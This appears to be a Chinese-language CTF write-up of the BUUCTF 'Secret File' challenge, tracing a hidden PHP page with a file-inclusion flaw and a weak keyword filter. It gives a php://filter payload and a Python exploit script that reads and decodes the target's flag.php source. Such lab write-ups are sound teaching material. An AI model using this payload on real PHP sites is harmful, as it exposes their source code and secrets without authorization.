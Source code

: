 # 分析

来自[[极客大挑战 2019]Secret File](https://buuoj.cn/challenges#[%E6%9E%81%E5%AE%A2%E5%A4%A7%E6%8C%91%E6%88%98%202019]Secret%20File)，php伪协议

页面没啥功能，F12查看源码，发现`./Archive_room.php`，访问看到

![image-20240625214256125](image/image-20240625214256125.png)

稳妥起见，查看这个页面访问`./action.php`，不到一秒，就看完了？整这些花里胡哨的

![image-20240625214400317](image/image-20240625214400317.png)

我们返回查阅前进行抓包，果然发现端倪，访问`secr3t.php`

![image-20240625214924889](image/image-20240625214924889.png)

代码审计，发现

```php+HTML
<html>
  <title>secret</title>
  <meta charset="UTF-8">
<?php
  highlight_file(__FILE__);
  error_reporting(0);
  $file=$_GET['file'];
  //过滤了关键字
  if(strstr($file,"../")||stristr($file, "tp")||stristr($file,"input")||stristr($file,"data")){
      echo "Oh no!";
      exit();
  }
  include($file); 
//flag放在了flag.php里
?>
</html>
```

尝试php伪协议获得flag.php源码，payload=`secr3t.php?file=php://filter/convert.base64-encode/resource=flag.php`

# exp

```python
import requests
import base64
import re

url = "http://edb1e0cc-0bb5-417d-854f-3eb6855a8b89.node5.buuoj.cn:81/secr3t.php"
kw={
  "file":"php://filter/convert.base64-encode/resource=flag.php"
}
res = requests.get(url, params=kw)

if res.status_code == 200:
    res_text = res.content.decode('utf-8')
    start_marker = '</code>'
    end_marker ='</html>'
    base64_data = res_text.split(start_marker)[1].strip()
    base64_data = base64_data.split(end_marker,1)[0]
    flag_text = str(base64.b64decode(base64_data))
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, flag_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->> {flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

